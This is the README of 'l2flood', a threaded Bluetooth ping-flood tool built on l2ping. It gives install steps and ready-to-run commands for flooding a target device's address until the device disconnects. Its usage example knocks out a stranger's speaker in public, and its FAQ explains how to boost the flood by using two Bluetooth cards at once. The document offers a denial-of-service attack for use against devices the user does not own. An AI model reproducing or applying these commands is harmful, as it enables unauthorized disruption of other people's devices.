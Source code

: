 # l2flood

[![builds.sr.ht status](https://builds.sr.ht/~kovmir/l2flood/commits/master/.build.yml.svg)](https://builds.sr.ht/~kovmir/l2flood/commits/master/.build.yml?)

[l2ping][1] with threads.

Flood a given bluetooth device with ping requests in order to force it to
disconnect.

# INSTALL

Satisfy the [dependencies](#dependencies) first, and then:

```bash
git clone https://git.sr.ht/~kovmir/l2flood
cd l2flood
make # Use `make serial` to build upstream l2ping.
sudo make install
```

# USAGE

Suppose there is a loud bluetooth speaker in public, and suppose
`94:3a:2c:e1:2b:07` is its address. You can shut it off like that:

```bash
l2flood 94:3a:2c:e1:2b:07 # Flood with as much threads as there are CPU cores.
l2flood -n 50 94:3a:2c:e1:2b:07 # Flood with 50 threads.
```

A weak speaker CPU will not be able to process that many ping requests, and
music decoding simultaneously; so it will disconnect.

Keep in mind:

* The default delay between packets has been changed to `0`.
* The default data packet size has been increased to `600`.
* [`l2ping` options][1] work.
* *Your bluetooth card is your bottleneck: Even if you have a multi-core
  multi-gigahertz CPU, it makes little to no sense to spawn as much as 1,000
  threads, because your bluetooth card is unlikely to be fast enough to process
  all the requests as quick as you submit them.*

# DEPENDENCIES

* [Bluez][3]
  * On Debian/Ubuntu/Kali `sudo apt install -y libbluetooth-dev`.

# SUPPORTED OPERATING SYSTEMS

* Linux

# FAQ

**Q: Does it work in [termux][2]?**

A: No, [Bluez][3] libraries are not available in termux.

**Q: Does it work on Steam Deck?**

A: Yes.

**Q: How to increase flood efficiency?**

A: Get a second bluetooth card, and flood using both of them.

```bash
BT_ADDR='00:00:00:00:00:00' # Set the target address.
l2flood -i hci0 $BT_ADDR &
l2flood -i hci1 $BT_ADDR
```

**Q: How to fix `Can't create socket: Operation not permitted`?**

A: Re-run as `root` user.

[1]: https://linux.die.net/man/1/l2ping
[2]: https://github.com/termux/termux-app
[3]: https://wiki.archlinux.org/title/Bluetooth
